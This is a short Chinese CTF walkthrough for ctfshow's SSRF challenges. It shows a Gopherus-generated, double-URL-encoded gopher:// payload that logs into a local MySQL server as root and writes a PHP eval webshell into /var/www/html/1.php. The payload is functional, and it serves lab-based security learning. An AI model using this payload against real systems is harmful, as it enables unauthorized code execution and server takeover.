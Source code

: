 工具利用地址：https://github.com/tarunkant/Gopherus

![image-20220113132205604](image/ctfshow-SSRF(351-360)/image-20220113132205604.png)

指定用户名和命令，这里写个马进去，注意不是所有情况下都可以写马，当前用户必须存在file权限，以及导出到`--secure-file-priv`指定目录下，并且导入目录需要有写权限。因为我这里post时会进行一次url解码，所以将结果再进行一次urlencode

`payload：returl=gopher%3A%2F%2F127.0.0.1%3A3306%2F_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2542%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%253d%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2522%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2531%252e%2570%2568%2570%2522%2501%2500%2500%2500%2501&u=123`

执行成功后即可getshell
